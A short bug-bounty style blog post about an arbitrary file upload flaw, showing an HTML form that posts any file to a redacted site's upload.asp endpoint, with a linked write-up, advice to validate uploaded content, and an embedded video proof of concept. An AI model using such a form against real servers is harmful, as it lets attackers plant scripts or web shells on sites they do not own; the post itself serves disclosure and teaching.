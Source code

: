 ```yaml
---
title:  "Arbitrary Upload Any File Extetions"
youtubeId: V7JG_I3TlcQ
author: Khaled Mohamed
categories: [PoC]
tags: ["Stored XSS","Unrestricted File Upload","RCE"]
math: true
---
```


Hello Everybody today i write about Arbitrary File Upload

Cause occurrence ?

It is because The Developer did not check the file extinsion or type ! Or there is a check but from javascript no php which to

Find the file the responsible for uploads Or if you have the Full source code php maybe you found function 

or any code Harmful that was found ……

And Create an external file html to upload files to the responsible file ? you understand 

![Source Vulnerable](/assets/img/PoC/source-code-Arbitrary.png)

You can Show the html upload code..

    <!DOCTYPE html>
    <html>
    <head>
    <title>Upload xElkomy</title>
    </head>
    <body>
    <form name="upload" method="POST" enctype="multipart/form-data" 
    action="https://xxxxxxxxxxx.com/asp/app/Upload/upload.asp?method=UPLOAD">
    <label>Uploading File Arbitrary</label>
    <input type="file" required name="myfile"><br><br>
    <input type="submit" name="upload" value="Upload - xELKOMY" >
    </form>
    </body>
    </html>
    
Now you understand.
You can read this Also https://medium.com/bugbountywriteup/arbitrary-file-upload-from-a-different-angle-1193ffb80b09

    Less common? Why?
    Because any platform with sane developers will validate the content type and the file extension of any file they interact with.
    But today I want to introduce you with a new validation attitude that I now advise
    everyone to use – validate the content itself.
    If you are expecting an image to be uploaded – expect the content to be suited as a content of an image. 
    If you are expecting an html
    file – sanitize it and make sure no script tags exist. There are plenty of libraries and tools to do that.
    

POC Me :-

{% include youtubePlayer.html id=page.youtubeId %}

I hope you will like it
#xELkomy
